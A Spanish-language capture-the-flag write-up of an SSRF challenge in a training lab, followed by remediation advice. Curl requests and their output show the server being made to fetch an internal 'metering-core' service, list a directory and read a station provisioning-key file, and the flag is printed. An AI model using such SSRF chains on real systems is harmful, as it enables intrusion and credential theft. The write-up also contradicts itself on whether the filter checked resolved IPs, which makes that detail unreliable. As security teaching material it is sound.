

# Helios Energy

**Plataforma:** HackLab (SoftwareSeguro)

**Edición:** CTF AWS Student

**Categoría:** SSRF *(no confirmada)*

**Puntaje:** 30 (el puntaje máximo de un desafío en la competencia fue 60)

**Herramientas:** curl

## Enunciado

> La plataforma pública de Helios Energy ofrece un "diagnóstico remoto de dispositivos":
> el operador pega la URL de gestión de un inversor o medidor y el sistema la consulta
> para mostrar su estado.
>
> Dentro de este sitio web está la clave de la estación principal que permite controlar
> todo, encontrala y ganá la flag.



## Reconocimiento

El portal tiene una sección "Diagnóstico remoto de dispositivo": un formulario donde se
pega la URL del endpoint de gestión de un inversor/medidor y "la plataforma lo consultará
para mostrarte el estado del equipo". El `app.js` revela cómo funciona por detrás:

```javascript
const res = await fetch("/api/diagnostico", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ url }),
});
```

El cliente manda la URL, pero **quien hace la petición HTTP es el servidor**. Y, de forma
clave, cuando la respuesta no tiene el formato de diagnóstico esperado, el backend
devuelve el cuerpo completo en un campo `preview.body`:

```javascript
} else if (data.preview) {
  const p = data.preview;
  result.textContent =
    `✖ ${data.error}\n` +
    `GET ${p.url}\n` +
    `HTTP ${p.status}  (${p.content_type})\n` +
    `${"-".repeat(48)}\n` +
    `Vista previa de la respuesta:\n${p.body}`;
}
```

Es un **SSRF (Server-Side Request Forgery) con respuesta reflejada**: podemos forzar al
servidor a pedir recursos internos y, además, leer el cuerpo de lo que lea.

### Comportamiento del endpoint

```bash
curl -sk -X POST https://<instancia>.softwareseguro.com.ar/api/diagnostico \
  -H "Content-Type: application/json" --data '{"url":"http://example.com/"}'
```

Una URL externa cualquiera vuelve con su `body` dentro de `preview`, confirmando la
exfiltración. En cambio, apuntar a loopback choca contra un filtro anti-SSRF:

```bash
curl -sk -X POST https://<instancia>.softwareseguro.com.ar/api/diagnostico \
  -H "Content-Type: application/json" --data '{"url":"http://127.0.0.1/"}'
```

```json
{"error":"Dirección no permitida: parece pertenecer a un rango interno/privado.","ok":false}
```

El filtro resuelve el nombre y normaliza bien: bloquea por igual `127.0.0.1`, `localhost`,
`0.0.0.0`, `127.1`, `[::1]`, `169.254.169.254` y `metadata.google.internal`. Los bypasses
clásicos de *representación* de IP (decimal, octal, IPv6) no lo esquivan.

Pero sí permite cualquier host que resuelva a una **IP pública**. Apuntando el SSRF al
propio hostname del portal, el servidor se consulta a sí mismo y responde un 404 de Flask:
el filtro valida por la IP resuelta (privada vs. pública), no por el nombre.

### Fuga de la topología interna

La `robots.txt` del portal señala una ruta en vez de protegerla:

```
User-agent: *
Allow: /internal-notes.txt
Disallow: /admin/
Disallow: /backup/
Disallow: /staging/

# Nota de Ops: el documento de notas de red quedó accesible por error.
# Ubicación: /internal-notes.txt
```

Y `/internal-notes.txt` describe la red interna y el objetivo:

```
## Servicios internos
- metering-core  ->  puerto 9100  (telemetría y aprovisionamiento de estaciones)
  * Se resuelve por nombre dentro de la red de la planta.
  * Endpoints habituales: /status , /health , /robots.txt

## Recordatorio de seguridad (pendiente)
- El filtro actual rechaza IPs privadas (10.x, 172.16-31.x, 192.168.x, 169.254.x).
```

Ahí está la pieza que falta: existe un **núcleo de medición `metering-core` en el puerto
9100**, que se resuelve **por nombre** dentro de la red de la planta. El filtro bloquea IPs
privadas *literales*, pero no el nombre de host interno.

## Explotación

### 1. Pivot al servicio interno por nombre

El nombre `metering-core` no es una IP privada en el texto de la URL, así que pasa el
filtro; cuando el servidor resuelve y conecta, llega al núcleo interno:

```bash
curl -sk -X POST https://<instancia>.softwareseguro.com.ar/api/diagnostico \
  -H "Content-Type: application/json" \
  --data '{"url":"http://metering-core:9100/status"}'
```

```
metering-core: ok.
```

SSRF funcionando contra la red interna. Su propia `robots.txt` delata un directorio más:

```bash
curl -sk -X POST https://<instancia>.softwareseguro.com.ar/api/diagnostico \
  -H "Content-Type: application/json" \
  --data '{"url":"http://metering-core:9100/robots.txt"}'
```

```
User-agent: *
Disallow: /internal/
```

### 2. Enumerar `/internal/`

El directorio tiene autoindex activado:

```bash
curl -sk -X POST https://<instancia>.softwareseguro.com.ar/api/diagnostico \
  -H "Content-Type: application/json" \
  --data '{"url":"http://metering-core:9100/internal/"}'
```

```html
<h1>Index of /internal</h1>
<p>Documentos operativos del nodo de medición. Uso interno.</p>
<ul>
  <li><a href="/internal/telemetry-report.html">telemetry-report.html</a></li>
</ul>
```

El reporte de telemetría enlaza las credenciales de aprovisionamiento:

```html
<p>Credenciales de aprovisionamiento de estación:
  <a href="/internal/keys/station-key.json">station-key.json</a></p>
```

### 3. Leer la clave de la estación principal

```bash
curl -sk -X POST https://<instancia>.softwareseguro.com.ar/api/diagnostico \
  -H "Content-Type: application/json" \
  --data '{"url":"http://metering-core:9100/internal/keys/station-key.json"}'
```

```json
{"flag":"7e3c9a1f05b84d62ae9f1c73d2680b4a","notes":"Buen pivot! :) La clave de estacion no deberia ser alcanzable desde afuera.","provisioning_key":"7e3c9a1f05b84d62ae9f1c73d2680b4a","station":"HELIOS-CENTRAL-01"}
```

La `provisioning_key` de **HELIOS-CENTRAL-01** es la flag. El JSON completo está en
[`assets/station-key.json`](assets/station-key.json).

Cadena final:

```
POST /api/diagnostico
{"url":"http://metering-core:9100/internal/keys/station-key.json"}
```

## Flag

```
7e3c9a1f05b84d62ae9f1c73d2680b4a
```

## 🛡️ Remediación (Developer Perspective)

- **Validar la IP resuelta, no la forma de la URL.** El filtro bloqueaba IPs privadas
  literales, pero `metering-core` entraba porque la denylist miraba el texto, no el
  destino. Hay que resolver el hostname y verificar la dirección final (y la de cada
  redirección) contra los rangos internos antes de conectar.
- **Allowlist en vez de denylist.** Permitir únicamente los dominios/rangos de "equipos de
  campo" legítimos. Una denylist siempre deja huecos: nombres internos, redirects, DNS
  rebinding, representaciones alternativas de IP.
- **Segmentación y control de egress.** El portal público no debería tener ruta de red al
  puerto 9100 del `metering-core`. La barrera real está en la red, no solo en la app.
- **No depender de la oscuridad.** `robots.txt`, `/internal-notes.txt` y el autoindex de
  `/internal/` expusieron toda la topología y el camino hasta la clave. `Disallow` no es
  un control de acceso: solo señala la ruta a quien lo lea. Desactivar el listado de
  directorios y no publicar notas internas en el webroot.
